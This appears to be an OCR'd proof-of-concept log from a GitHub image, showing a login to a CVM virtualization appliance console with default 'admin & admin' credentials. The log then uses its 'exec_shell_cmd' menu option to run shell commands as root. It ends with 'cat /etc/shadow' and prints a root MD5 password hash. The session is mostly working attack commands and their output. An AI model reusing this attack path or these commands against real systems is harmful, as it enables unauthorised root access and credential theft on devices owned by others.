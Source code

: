  Admin & admin connected successfully!
 
## Oh! Fuck , A Quiet Terminal Response!
- - - - - - -
No , Not a Problem!
Input as it noticed "41.exec_shell_command"
- - - - - - 

|-------------------------COMMAND---------------------------------------
<1>:cvm_version        <2>:cvm_monitor     <3>:ifconfig_list    <4>:list_all
<5>:get_sn             <6>:get_status      <7>:list_base        <8>:list_iso
<9>:list_temp          <10>:list_vms <11>:web_service_status<12>:list_instance
<13>:list_instance_name     <14>:run_instance_fast     <15>:release_instance
<16>:edit_image        <17>:edit_temp      <18>:ifconfig        <19>:dnsconfig
<20>:open_port         <21>:close_port     <22>:change_ftpuser_pwd
<23>:reset_ftpuser_pwd <24>:clone_image    <25>:create_base     <26>:del_base
<27>:del_iso           <28>:get_check    <29>:list_resource<30>:preload_image
<31>:rebase_image      <32>:rename_image <33>:list-preload    <34>:del_preload
<35>:del_image         <36>:del_temp     <37>:list_image      <38>:replace_iso
<39>:web_service       <40>:shutdown_instance         <41>:exec_shell_cmd
<42>:expand_image      <43>:copy_temp                 <44>:list_backup_temp
<45>:list_backup_temp_dir   <46>:del_backup_temp   <47>:del_backup_temp_dir
<48>:poweroff          <49>:reboot        <50>:add_vlan        <51>:del_vlan
<52>:list_vlan         <53>:quit          <0>:factory test
|-------------------------------------------------------------------------------

    41
    please input agrs
    ls
    ls ~
    <args><cmd>ls ~</cmd></args>
    exec_shell_cmd result:
    <?xml version="1.0" encoding="UTF-8"?>
    <return>
      <command>exec_shell_cmd</command>
      <output>anaconda-ks.cfg
    install.log
    install.log.syslog
    iptables.save
    ks-post1.log
    ks-post.log
    </output>
    </return>

please choose the command (input a number between 0-53):

- - - - - - 
    > whoami
    # root
    > cat /etc/shadow
    # root:$1$ib1ReZOT$/kwEfqJdhMIU/GF7HUJjs/:16665:0:99999:7::: 
    # bin:*:15980:0:99999:7::: 
    # daemon:*:15980:0:99999:7::: 
    # adm:*:15980:0:99999:7::: 
    # lp:*:15980:0:99999:7::: 